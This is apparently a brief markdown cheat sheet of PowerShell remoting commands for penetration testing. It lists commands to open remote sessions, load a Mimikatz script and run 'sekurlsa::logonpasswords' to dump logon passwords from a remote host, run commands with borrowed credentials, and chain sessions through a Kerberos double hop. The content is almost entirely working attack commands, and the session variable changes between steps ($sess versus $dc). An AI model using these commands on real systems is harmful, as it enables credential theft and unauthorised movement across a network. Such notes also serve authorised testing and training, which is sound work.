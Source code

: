 # Powershell

## Commands

### Create a remote session

```text
$sess = New-PSSession -ComputerName lab.test.local
```

### Load a script 

```text
Invoke-Command  -FilePath{C:\temp\mimi.ps1} -Session $dc
```

### Execute the script

```text
 Invoke-Command -ScriptBlock{invoke-mimikatz -command '"sekurlsa::logonpasswords"'} $dc
```

#### Using credentials \(password needed\)

```text
Invoke-Command -ScriptBlock {ipconfig} -ComputerName target -Credential TEST\user
```

### Kerberos double hop

#### Execute command from remote session from target into target2

```text
$sess = New-PSSession -ComputerName lab.test.local
Invoke-Command -ScriptBlock{ $db = New-PSSession -ComputerName target2} -Session $sess
```

